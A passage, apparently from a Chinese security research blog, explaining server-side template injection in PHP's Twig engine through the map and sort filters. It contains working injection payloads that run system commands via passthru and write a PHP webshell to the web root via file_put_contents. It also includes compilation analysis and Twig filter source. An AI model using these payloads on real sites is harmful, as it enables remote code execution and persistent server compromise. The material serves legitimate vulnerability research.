 - > exec ( string `$command` [, array `&$output` [, int `&$return_var` ]] ) : string

- > popen ( string `$command` , string `$mode` )

- > shell_exec ( string `$cmd` ) : string

只要可以传两个参数的基本都可以，所以前四个都是可以用的。

思考一下如果上面的都被禁了，还有其他办法吗？

- > file_put_contents ( string `$filename` , [mixed](https://xz.aliyun.com/t/language.pseudo-types.html#language.types.mixed) `$data` [, int `$flags` = 0 [, resource `$context` ]] ) : int

通过`{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}` 写个shell 也是可以的。

当然了应该还有其他函数可以利用。

下面通过调试来看一下传arrow fucntion 和 直接传字符串会有什么不同。

`(arg)=>"hello #{arg}"` 会被解析成ArrowFunctionExpression，经过一些列处理会变成一个闭包函数。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200331200932-7aa4b54c-7348-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200331200932-7aa4b54c-7348-1.png)

但是如果我们传的是 ``{{["id"]|map("passthru")}}` `passthru` 会被解析成 ConstanExpression

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200331200953-8792a048-7348-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200331200953-8792a048-7348-1.png)

`{{["id"]|map("passthru")}}` 最终会被编译成下面这样

```
twig_array_map([0 => "whoami"], "passthru")
```

按照这个思路，我们去找$arrow 参数的， 可以发现下面几个filter也是可以利用的

#### sort

```
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow);
    } else {
        asort($array);
    }

    return $array;
}
```

> usort ( array `&$array` , [callable](https://xz.aliyun.com/t/language.types.callable.html) `$value_compare_func` ) : bool
